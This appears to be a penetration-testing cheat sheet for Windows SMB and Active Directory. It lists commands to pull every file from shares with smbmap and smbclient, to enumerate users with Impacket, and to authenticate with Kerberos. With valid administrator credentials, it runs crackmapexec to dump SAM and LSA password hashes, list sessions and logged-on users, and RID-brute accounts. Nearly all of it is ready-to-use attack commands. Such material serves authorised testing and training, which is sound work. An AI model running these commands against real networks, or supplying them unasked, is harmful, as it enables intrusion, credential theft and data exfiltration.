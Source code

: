 ### Downloading files via smbmap:

```python
#Search a file and download
sudo smbmap -R Folder -H <IP> -A <FileName> -q # Search the file in recursive mode and download it inside /usr/share/smbmap
```

### Downloading files via smbclient (all files):

```python
#Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
```

### Enumerate local users with Impacket:

```python
lookupsid.py -no-pass hostname.local
```

### Authenticate using Kerberos:

* Authenticate to Kerberos via smbclient and rpcclient

```python
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```

### Have valid creds? Run the following lucrative commands for some juicy information:

```python
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute
```
